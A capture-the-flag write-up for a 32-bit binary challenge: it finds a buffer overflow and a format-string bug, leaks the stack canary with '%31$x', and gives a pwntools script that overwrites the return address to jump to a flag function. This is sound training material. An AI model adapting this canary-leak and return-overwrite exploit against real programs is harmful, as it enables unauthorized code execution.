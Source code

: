 # Baby
```
How do you tackle cookies?

nc challenge1.lagncrash.com 10000
```
<br>
32 bit binary with canary
Partial RELRO possible got.plt overwrite?
![](./1.png)
<br>
From ghidra we can see it reads in 512 char but only allocates 100 char to local_74 hence a buffer overflow & a printf() which is an indication of a possible format string vulnerability.
![](./2.png)
<br>
Location of stack canary(ebp-0xc):
![](./3.png)
<br>
Using format string exploit which the canary value is shown on the 31th
![](./4.png)
<br>
Canary value:
![](./5.png)
<br>
From: https://guyinatuxedo.github.io/7.1-mitigation_canary/index.html
![](./6.png)
<br>
Getting flag() address from ghidra(0x080491d2):
![](./7.png)
<br>
```
from pwn import *
import codecs

#binary = remote("challenge1.lagncrash.com", 10000)
binary = process('./baby')
binary.recvline()

fsb = "%31$x"                 #Gets canary value
binary.sendline(fsb)

canary = binary.recv()[:-1]   #remove newline
print("Canary @ " + canary)

#Convert 41414242 to AABB then inverts it BBAA 
while len(canary) != 8:canary="0"+canary
canary = codecs.decode(canary, 'hex_codec')
canary = canary[::-1]
#gdb.attach(binary)

#View bottom
binary.sendline("\x90"*100+canary+"\x90"*12+p32(0x080491d2))
print(binary.recv())
#binary.interactive()
#binary.close()
```
Overwrites return address to canary address, which returns to main(0x0849363) hence overwriting the 12 char and then the flag address(0x080491d2)
![](./8.png)
<br>